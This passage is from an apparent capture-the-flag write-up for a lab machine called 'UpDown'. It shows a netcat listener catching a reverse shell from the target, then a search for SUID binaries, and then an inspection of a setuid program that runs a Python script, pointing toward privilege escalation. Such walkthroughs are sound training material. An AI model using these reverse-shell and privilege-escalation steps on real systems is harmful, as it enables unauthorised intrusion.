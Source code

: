 I was finally in.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.177] 49620
bash: cannot set terminal process group (910): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev/uploads/3b8f7dcbcb24fc8e95da41b7b3fc5d0c$ 

www-data@updown:/var/www/dev/uploads/3b8f7dcbcb24fc8e95da41b7b3fc5d0c$ 
```

## Getting User

Once I got in the machine, I looked for files with the `suid` bit set.

```bash
www-data@updown:/var/www/dev/uploads/3b8f7dcbcb24fc8e95da41b7b3fc5d0c$ find / -perm /u=s 2>/dev/null
<fc8e95da41b7b3fc5d0c$ find / -perm /u=s 2>/dev/null                   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/at
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/mount
/home/developer/dev/siteisup
```

There was an executable in developer's home that I could run as them.

```bash
www-data@updown:/home/developer$ ls -la /home/developer/dev/siteisup
-rwsr-x--- 1 developer www-data 16928 Jun 22  2022 /home/developer/dev/siteisup

www-data@updown:/home/developer$ file /home/developer/dev/siteisup
/home/developer/dev/siteisup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b5bbc1de286529f5291b48db8202eefbafc92c1f, for GNU/Linux 3.2.0, not s
tripped
www-data@updown:/home/developer$ strings /home/developer/dev/siteisup
/lib64/ld-linux-x86-64.so.2
libc.so.6
puts
setresgid
setresuid
system
getegid
geteuid
...
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.py
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
...

```